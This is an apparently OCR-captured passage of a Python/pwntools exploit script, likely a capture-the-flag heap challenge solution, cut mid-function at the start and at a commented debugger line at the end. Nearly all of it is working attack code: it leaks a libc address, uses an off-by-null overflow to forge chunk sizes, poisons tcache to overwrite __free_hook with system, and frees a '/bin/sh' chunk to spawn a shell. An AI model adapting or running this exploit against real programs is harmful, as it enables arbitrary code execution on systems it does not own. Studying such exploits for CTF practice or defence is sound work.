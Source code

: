 ```
    sh.recvuntil('Input content:\n')
    sh.send(cont)

def Delete(idx):
    Cmd(2)
    sh.recvuntil('Input idx:\n')
    Num(idx)

def Play(idx):
    Cmd(3)
    sh.recvuntil('Input idx:\n')
    Num(idx)

#chunk arrange
for i in range(9):
    Add(0xF0, str(i)*0xF0)
Add(0x20, 'A'*0x20)
Add(0x18, 'ABCCBA'*0x4)
Add(0x18, 'C'*0x18)
Add(0xF0, 'D'*0xF0)
Add(0x20, 'gap')

#leak libc addr
for i in range(9):
    Delete(i)        #UB&lt;=&gt;(C7, C8)
for i in range(7):
    Add(0xF0, 'A'*0xF0)
Add(0xF0, 'A'*8)    #get chunk C7
Play(7)

sh.recvuntil('Chal:\n')
sh.recvuntil('A'*8)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x3ebe90
Log('libc.address')

#offset by null
for i in range(8):        #UB&lt;=&gt;(C7, C8)
    Delete(i)
Delete(11)
Play(10)

#forge fake size
Delete(10)
Add(0x18, flat(0, 0, 0x270))
Delete(12)                #UB&lt;=&gt;(C7, C8, ..., A, B, C, D)

#tcache attack
Delete(9)
exp = '\x00'*0x1F0
exp+= flat(0, 0x31)
exp+= p64(libc.symbols['__free_hook']-0x8)    #ChunkA's fd
Add(len(exp), exp)        #Tcache[0x30]-&gt;Chunk A-&gt;hook

Add(0x20, '\x00'*0x20)
exp = '/bin/sh\x00'
exp+= p64(libc.symbols['system'])
Add(0x20, exp)

#getshell
Delete(3)

#gdb.attach(sh, '''
#telescope (0x202100+0x0000555555554000) 16
```